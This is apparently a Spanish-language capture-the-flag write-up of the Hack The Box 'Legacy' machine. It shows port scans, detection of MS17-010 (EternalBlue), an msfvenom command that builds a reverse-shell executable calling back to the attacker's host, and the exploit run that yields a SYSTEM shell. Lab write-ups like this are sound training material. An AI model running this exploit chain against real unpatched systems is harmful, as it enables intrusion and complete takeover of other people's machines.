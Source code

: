 ```yaml
---
title: "Hackthebox Legacy Writeup (OSCP Style)"
date: 2020-08-26 14:21:54 +/-0800
categories: [Hackthebox,Windows]
tags: [Eternalblue,MS17-010]
image: /assets/img/Post/Legacy.jpg
---
```


Información de la máquina.

| Contenido | Descripción |
|--|--|
| OS: | **![](https://lh4.googleusercontent.com/MHW4d9kHrUo_W-GEyKNmxy4d80uPN5LB0VvwueRlflx-MIKT90EEwXBQZAv7Lg_N9dhTCed17DcmhNF-T_39FcYHrBAx7bHTDD1I7FGeqykdeKs849mRr1y0-aggvaZ7eYUYjPZG)** |
| Dificultad: | Facil |
| Puntos: | 20 |
| Lanzamiento: | 15/Marzo/2017 |
| IP: | 10.10.10.4 |
| Primera sangre de usuario: | [0x1Nj3cT0R](https://www.hackthebox.eu/home/users/profile/22) |
| Primera sangre de system: | [0x1Nj3cT0R](https://www.hackthebox.eu/home/users/profile/22) |

## Enumeación.

Como siempre comenzaremos con un escaneo a los     `65535` puertos para descubrir cuales son los puertos abiertos.

```console
intrusionz3r0@kali:~$ nmap -p- --open -T5 -n -oG nmapScanAllPorts legacy.htb -Pn --min-rate 3000
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 17:13 CDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.23s latency).
Not shown: 65532 filtered ports, 1 closed port
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Nmap done: 1 IP address (1 host up) scanned in 47.65 seconds
```
Después lanzaré scripts de enumeración básicos para conocer los servicios y versiones de los puertos abiertos.
```console
intrusionz3r0@kali:~$  nmap -sCV -p139,445 -oN targeted legacy.htb -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 17:16 CDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.20s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: 5d00h30m21s, deviation: 2h07m16s, median: 4d23h00m21s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:91:0b (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2020-09-01T03:17:15+03:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 60.69 seconds
```
El escaneo determino lo siguiente:

* Puerto 139/tcp con servicio samba.
* Puerto 445/tcp con servicio samba.

## Análisis del servicio samba.

Rápidamente lanzo otro escaneo con nmap con el objetivo de poder encontrar si estas versiones de samba esta asociadas con alguna vulnerabilidad critica.

```console
intrusionz3r0@kali:~$ nmap -p139,445 --script="Vuln and Safe" legacy.htb -oN vulnScan -Pn
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-26 17:26 CDT
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.29s latency).

PORT    STATE SERVICE
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/

Nmap done: 1 IP address (1 host up) scanned in 18.94 seconds
```

**¡¡Eureka!!**

Podemos observar que la máquina es vulnerable a `ms17-010` el famoso `eternalblue`.

Para explotarlo necesitamos descargarnos el siguiente repositorio: [https://github.com/helviojunior/MS17-010](https://github.com/helviojunior/MS17-010)

## Explotación de eternalblue.

Una vez descargado verificamos si la máquina es vulnerable nuevamente.

```console
intrusionz3r0@kali:~$ sudo python checker.py legacy.htb                                                                        [28/28]
Trying to connect to legacy.htb:445                                                                                                                                
Target OS: Windows 5.1                                                                                                                                             
The target is not patched                                                                                                                                          
                                                                                                                                                                   
=== Testing named pipes ===                                                                                                                                        
spoolss: Ok (32 bit)                                                                                                                                               
samr: STATUS_ACCESS_DENIED                                                                                                                                         
netlogon: STATUS_ACCESS_DENIED                                                                                                                                     
lsarpc: STATUS_ACCESS_DENIED                                                                                                                                       
browser: Ok (32 bit)
```
Si en la respuesta te arroja cualquier pipe en `OK` significa de que es vulnerable.

Creamos una payload.
```console
intrusionz3r0@kali:~$ sudo msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.20 LPORT=1234 -f exe -o eternal.exe                    
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload                                                                             
[-] No arch selected, selecting arch: x86 from the payload                                                                                                         
No encoder specified, outputting raw payload                                                                                                                       
Payload size: 324 bytes                                                                                                                                            
Final size of exe file: 73802 bytes                                                                                                                                
Saved as: eternal.exe
```
Por último dejamos nuestro netcat a la escucha y lanzamos el exploit.

```console
intrusionz3r0@kali:~$ sudo python send_and_execute.py 10.10.10.4 eternal.exe 445 spoolss                           
Trying to connect to 10.10.10.4:445
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x82129010
SESSION: 0xe21045d8
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe21676b0
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe2167750
overwriting token UserAndGroups
Sending file V9TKR5.exe...
Opening SVCManager on 10.10.10.4.....
Creating service BYjN.....
Starting service BYjN.....
The NETBIOS connection with the remote host timed out.
Removing service BYjN.....
ServiceExec Error on: 10.10.10.4
nca_s_proto_error
Done
```

![](https://lh4.googleusercontent.com/efO57qg1EeFfLV9qks83MO3sBd961Kvb46EykFNcytBlddJyRkmT7ReRNtwE0JaYu0JRAGWxH2B8R3zdzGwUtRqOR2jteRei_UPP0R78PuQuVpsAZ-CUPcnjieaOo5miFmZ2QQ4J)

## Ejecución del binario whoami.exe

**¡¡Eureka!!**

Tenemos shell pero al intentar ejecutar el comando `whoami` podemos observar que es imposible debido a que no exite el binario.

```console
C:\WINDOWS\system32>whoami
whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```
Aunque se que somos Administradores de todas formas vamos a intentar ejecutar el binario `whoami` en la máquina.

Rápidamente me levanto un servidor con samba compartiendo el `whoami.exe` y lo ejecutamos desde ahí.

![](https://lh3.googleusercontent.com/ettGpXlw6gE5GzlOY7wPXxehUI85URaeJAZXOabZkiZMD3M0Xi3fsJfgluyWz8yrK8k6F7Syj4ulGc9TDNWXnR6LIIzfJsnnDhRoSGyB5vBtYVBFZDpBedAEL3LkXvmlHyy6ffxx)


**¡¡Somos Administrador!!**

![enter image description here](https://i2.wp.com/media0.giphy.com/media/mQG644PY8O7rG/giphy.gif)

Espero te haya gustado, recuerda seguirme en mis redes sociales para estar al pendiente de todo mi contenido.

**¡Muchas Gracias!**
